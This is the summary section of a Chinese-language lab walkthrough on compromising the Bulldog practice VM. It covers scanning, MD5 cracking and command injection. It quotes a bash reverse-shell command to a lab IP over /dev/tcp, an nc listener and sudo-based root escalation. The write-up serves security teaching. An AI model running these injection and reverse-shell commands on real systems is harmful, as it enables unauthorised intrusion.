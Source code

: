 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROZcQQokCoHhOSZvZceozg9xQ43BzMH9hr9vibn6ZuQwEyCy5HDEA0SiaCBUcuMuONmno3XyomfmGZg/640?wx_fmt=png)

三. 总结
=====

写道这里，这篇文章讲解完毕，后续会更深入的分享。bulldog 的渗透流程如下：

*   信息收集  
    目标 IP 探测 (arp-scan、netdiscover、nmap)  
    Nmap 端口扫描
    
*   目录扫描  
    用 dirb 扫出了许多关键目录（admin 和 dev 页面）
    
*   敏感文件查找及网页访问
    
*   MD5 破解（在线破解、hash-identifier）  
    仔细观察网页信息，该靶机主要在 / dev 目录处前端源码泄露了 MD5 密码信息
    
*   登录管理员账号，并在 / dev/shell 页面利用命令注入漏洞
    
*   命令注入和 shell 反弹  
    命令拼接（ls &&echo “bash -i>&
    
    /dev/tcp/192.168.44.138/4444 0>&1” | bash）  
    nc 反弹 shell（nc -lvp 4444）  
    Python 搭建临时 Web 服务（python -m SimpleHTTPServer 80）
    
*   权限提升和获取 flag  
    sudo python -c ‘import pty; pty.spawn("/bin/bash")’  
    sudo su - root
    

学安全一年，认识了很多安全大佬和朋友，希望大家一起进步。这篇文章中如果存在一些不足，还请海涵。作者作为网络安全和系统安全初学者的慢慢成长路吧！希望未来能更透彻撰写相关文章。同时非常感谢参考文献中的安全大佬们的文章分享，深知自己很菜，得努力前行。编程没有捷径，逆向也没有捷径，它们都是搬砖活，少琢磨技巧，干就对了。什么时候你把攻击对手按在地上摩擦，你就赢了，也会慢慢形成了自己的安全经验和技巧。加油吧，少年希望这个路线对你有所帮助，共勉。

前文分享（下面的超链接可以点击喔）：

*   [[网络安全] 一. Web 渗透入门基础与安全术语普及](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483786&idx=1&sn=d9096e1e770c660c6a5f4943568ea289&chksm=cfccb147f8bb38512c6808e544e1ec903cdba5947a29cc8a2bede16b8d73d99919d60ae1a8e6&scene=21#wechat_redirect)
    
*   [[网络安全] 二. Web 渗透信息收集之域名、端口、服务、指纹、旁站、CDN 和敏感信息](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483849&idx=1&sn=dce7b63429b5e93d788b8790df277ff3&chksm=cfccb104f8bb38121c341a5dbc2eb8fa1723a7e845ddcbefe1f6c728568c8451b70934fc3bb2&scene=21#wechat_redirect)
    
*   [[网络安全] 三. 社会工程学那些事及 IP 物理定位](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483994&idx=1&sn=1f2fd6bea13365c54fec8e142bb48e1d&chksm=cfccb297f8bb3b8156a18ae7edaba9f0a4bd5e38966bdaceeff03a5759ebd216a349f430f409&scene=21#wechat_redirect)
    
*   [[网络安全] 四. 手工 SQL 注入和 SQLMAP 入门基础及案例分析](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484068&idx=1&sn=a82f3d4d121773fdaebf1a11cf8c5586&chksm=cfccb269f8bb3b7f21ecfb0869ce46933e236aa3c5e900659a98643f5186546a172a8f745d78&scene=21#wechat_redirect)
    
*   [[网络安全] 五. XSS 跨站脚本攻击详解及分类 - 1](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484381&idx=1&sn=a1d459a7457b56b02e217f39e5161338&chksm=cfccb310f8bb3a06442b001fc7b38a0363b9fbd4436f450b0ce6fa2eeb5c796fc936ceb5d6fa&scene=21#wechat_redirect)
    